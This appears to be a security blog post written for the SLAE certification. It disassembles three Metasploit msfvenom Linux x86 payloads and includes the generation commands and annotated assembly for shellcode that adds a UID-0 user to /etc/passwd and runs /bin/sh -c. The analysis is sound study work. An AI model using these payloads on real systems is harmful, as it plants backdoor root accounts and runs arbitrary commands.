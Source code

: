 ```yaml
---
layout: single
title: "SLAE: MSFVENOM payload analysis"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-25
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us generate and examine 3 msfvenom payloads with GDB, ndisasm and libemu.

We know that for the purpose of this assignment they need to be x86 linux, so we'll start by listing all such payloads with ```msfvenom --list payloads | grep linux/x86```

All our previous tasks so far have dealt with spawning a shell of some sort, so today we will look for something different.

```
    linux/x86/adduser               Create a new user with UID 0
    linux/x86/chmod                 Runs chmod on specified file with specified mode
    linux/x86/exec                  Execute an arbitrary command

```
#### Payload 1

Let's start with ```linux/x86/adduser```, examining with ndisasm.
We list the payload options with ```msfvenom --list-options -p linux/x86/adduser```, and the result is as you would expect.

![adduser](/assets/images/SLAE_5/1.JPG)

We spin it up and generate the shellcode, piping the output to nidasm with ````msfvenom -p linux/x86/adduser USER=user PASS=pass | ndisasm -u -````

Here we can determine that 4 syscalls are being made:

```
push byte +0x46 ; syscall 70, #define __NR_setreuid
push byte +0x5  ; syscall 5, #define __NR_write
push byte +0x4  ; syscall 4, #define __NR_open
push byte +0x1  ; syscall 1, #define __NR_exit
```

Just from looking at this, we could hazard a guess that we will be opening etc/passwd and modifying it.
We confirm this be converting three strings that get pushed on the stack:

```
push dword 0x64777373 }
push dword 0x61702f2f  = dwssap//cte/ or /etc//passwd flipped
push dword 0x6374652f }
```
what we can't see is our args, so we will have to look closer at our ndisasm output

```
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46 ; setreuid to 0
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax ; pop 0x5 to ecx to setup open syscall
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx ; push 0x0
0000000F  6873737764        push dword 0x64777373 ; as below
00000014  682F2F7061        push dword 0x61702f2f = dwssap//cte/ or /etc//passwd flipped
00000019  682F657463        push dword 0x6374652f ; as above
0000001E  89E3              mov ebx,esp ; store args for open
00000020  41                inc ecx ; set ecx to 1 as was zero before
00000021  B504              mov ch,0x4 ; move 4 into ch, cx (lower 16 bits of ecx) would now be 401
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E822000000        call 0x4d ; this is an interesting trick, one that I learnt about in the GDB portion of this assignment further down.
This instruction is actually calling code that pushes our *processed* arguments (hashed password) to the stack for the write instruction
0000002B  7573              jnz 0xa0
0000002D  65723A            gs jc 0x6a
00000030  41                inc ecx
00000031  7A77              jpe 0xaa
00000033  3137              xor [edi],esi
00000035  63546E6E          arpl [esi+ebp*2+0x6e],dx
00000039  4A                dec edx
0000003A  41                inc ecx
0000003B  41                inc ecx
0000003C  41                inc ecx
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
**This is where we call the code to push user and pass**
757365723A417A77313763546E6E4A4141413A303A303A3A2F3A2F62696E2F73680A
user:Azw17cTnnJAAA:0:0::/:/bin/sh\n
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
To get an even better understanding, we generate the raw shellcode and use the echo | nidasm trick to examine what happens right after the string we know now is our user and pass string:

![pop_user_pass](/assets/images/SLAE_5/3.JPG)

```
00000000  59                pop ecx ; store user and pass in ecx
00000001  8B51FC            mov edx,[ecx-0x4]
00000004  6A04              push byte +0x4 ; arg for write
00000006  58                pop eax ; put syscall number 4 in eax
00000007  CD80              int 0x80 ; call syscall
00000009  6A01              push byte +0x1 ; arg for exit
0000000B  58                pop eax; put syscall number 1 in eax
0000000C  CD80              int 0x80

```




#### Payload 2

Next up is the chmod payload, we will use libemu for this one.

![chmod](/assets/images/SLAE_5/5.JPG)



#### Payload 3

As we can see for the ```linux/x86/exec``` payload, this has only one option, "CMD" - self explanatory. 

![exec](/assets/images/SLAE_5/10.JPG)

![exec2](/assets/images/SLAE_5/11.JPG)

For this payload we will use gdb.
As we compiled the payload with the shellcode stored in "code", we know that we can run `disassemble &code` straight off the bat and break just before the interrupt is called, by examining the initial code we clearly see that /bin/sh-c is pushed on - but where does ls come from? it appears the `ins` instruction inputs into a memory location, and as below screenshots, we can determine by breaking at the call instruction and stepping through it while examining the stack that it is indeed pushing that address onto the stack after storing the string inside.

![disassemble](/assets/images/SLAE_5/12.JPG)
![disassemble](/assets/images/SLAE_5/13.JPG)

```
   0x0804a040 <+0>:	push   0xb ; move the value of 11 onto stack, the execve syscall number
   0x0804a042 <+2>:	pop    eax ; pop sycall into eax
   0x0804a043 <+3>:	cdq    
   0x0804a044 <+4>:	push   edx ; push 0x0 on (value confirmed by breaking at this address and examining edx)
   0x0804a045 <+5>:	pushw  0x632d ; push "c-" onto stack (-c)
   0x0804a049 <+9>:	mov    edi,esp ; move args into edi
   0x0804a04b <+11>:	push   0x68732f ; push "hs/" onto stack (/sh)
   0x0804a050 <+16>:	push   0x6e69622f ; push /nib/ (/bin)
   0x0804a055 <+21>:	mov    ebx,esp ; move args into ebx
   0x0804a057 <+23>:	push   edx
   0x0804a058 <+24>:	call   0x804a060 <code+32> ; store ls on the stack
   0x0804a05d <+29>:	ins    BYTE PTR es:[edi],dx store ls inside 0x0804a05d
   0x0804a05e <+30>:	jae    0x804a060 <code+32>
   0x0804a060 <+32>:	push   edi
   0x0804a061 <+33>:	push   ebx
   0x0804a062 <+34>:	mov    ecx,esp
   0x0804a064 <+36>:	int    0x80
   0x0804a066 <+38>:	add    BYTE PTR [eax],al

```
